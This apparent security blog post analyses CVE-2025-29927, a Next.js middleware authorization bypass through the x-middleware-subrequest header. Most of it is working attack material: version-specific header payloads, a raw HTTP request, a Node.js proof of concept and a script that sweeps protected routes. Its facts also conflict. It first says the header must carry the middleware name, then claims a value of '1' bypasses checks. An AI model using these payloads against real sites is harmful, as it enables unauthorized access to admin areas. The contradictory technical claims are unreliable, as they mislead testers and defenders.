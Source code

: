 ```yaml
---
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
layout: post
tags: [Next.js, CVE-2025-29927, middleware, authorization bypass, security, pentesting, red-team, web-security, Node.js, exploit, hacking, cybersecurity]
image: /assets/images/next.jpg

---
```


# CVE-2025-29927: Next.js Middleware Authorization Bypass – Deep Technical Analysis

CVE-2025-29927 is a critical security vulnerability in the Next.js framework. This issue arises from the improper handling of the `x-middleware-subrequest` header. This header plays a key role in Next.js middleware execution, and its misuse can bypass authorization checks.

---

## 1️⃣ Role of `x-middleware-subrequest` Header

Next.js uses the `x-middleware-subrequest` header to determine whether a request is an internal subrequest. This header is designed to prevent infinite middleware loops. However, incorrect handling allows external requests to bypass middleware checks.

---

## 2️⃣ Technical Mechanism of the Vulnerability

```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  };
  continue;
}
```

This code reads the `x-middleware-subrequest` header, splits it into an array, and if it contains `middlewareInfo.name`, the middleware is skipped, allowing external requests to bypass authorization.

---

## 3️⃣ Exploit Methods Across Next.js Versions

### 📌 Version 12.2 and Earlier

Middleware files are named `_middleware.ts` and reside in the `pages` folder. The `middlewareInfo.name` is the combination of directory and file name.

```javascript
x-middleware-subrequest: pages/_middleware
```

Setting this header externally can skip middleware checks.

### 📌 Version 12.2 and Later

Middleware files are `middleware.ts`. The `middlewareInfo.name` is just the file name.

```javascript
x-middleware-subrequest: middleware
```

Correctly setting this header still bypasses middleware.

### 📌 Version 13.2.0 and Later

Next.js enforces `MAX_RECURSION_DEPTH` to prevent infinite loops, but misuse of `x-middleware-subrequest` remains exploitable.

```javascript
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

---

## 4️⃣ Exploit Scenario

```http
GET /admin HTTP/1.1
Host: vulnerable-app.local
x-middleware-subrequest: 1
```

This request bypasses middleware and allows unauthorized access to routes like `/admin`.

### Node.js PoC

```javascript
import fetch from 'node-fetch';

async function exploit() {
    const res = await fetch('http://localhost:3000/admin', {
        headers: { 'x-middleware-subrequest': '1' }
    });
    const body = await res.text();

    if (body.includes('Admin Panel')) {
        console.log('[+] Bypass Successful!');
    } else {
        console.log('[-] Middleware blocking access.');
    }
}

exploit();
```

---

## 5️⃣ JWT / Cookie Combinations

Some projects combine middleware with cookie or JWT role checks:

```javascript
if (!req.cookies.auth_token && req.headers['x-middleware-subrequest'] !== '1') {
    return NextResponse.redirect('/login');
}
```

Adding the header allows access without token or JWT.

---

## 6️⃣ Header Manipulation Scenarios

| Scenario      | Header                                    | Result             |
| ------------- | ----------------------------------------- | ------------------ |
| Simple bypass | x-middleware-subrequest: 1                | Middleware skipped |
| JWT bypass    | x-middleware-subrequest: 1 + missing JWT  | Role check bypass  |
| Cookie bypass | x-middleware-subrequest: 1 + empty cookie | Auth bypass        |

---

## 7️⃣ Automated Test Script (Red-Team Style)

```javascript
import fetch from 'node-fetch';

const routes = ['/admin', '/dashboard', '/settings'];

async function testBypass() {
    for (const route of routes) {
        const res = await fetch(`http://localhost:3000${route}`, {
            headers: { 'x-middleware-subrequest': '1' }
        });
        console.log(`${route}: ${res.status}`);
    }
}

testBypass();
```

This script tests all protected routes automatically to quickly identify which can be bypassed.

---

## 8️⃣ Hacker Perspective

* Auth checks in middleware can be bypassed via header manipulation.
* JWT or cookie combinations can optimize bypass.
* Red-team testing involves code-based exploits and response analysis.
* Summary: `x-middleware-subrequest` = primary exploit entry point.


## 📺 Video Demonstration

<iframe width="100%" height="500" 
src="https://www.youtube.com/embed/S3CVytIv098" 
title="Next.js Middleware Bypass CVE-2025-29927" 
frameborder="0" 
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen></iframe>


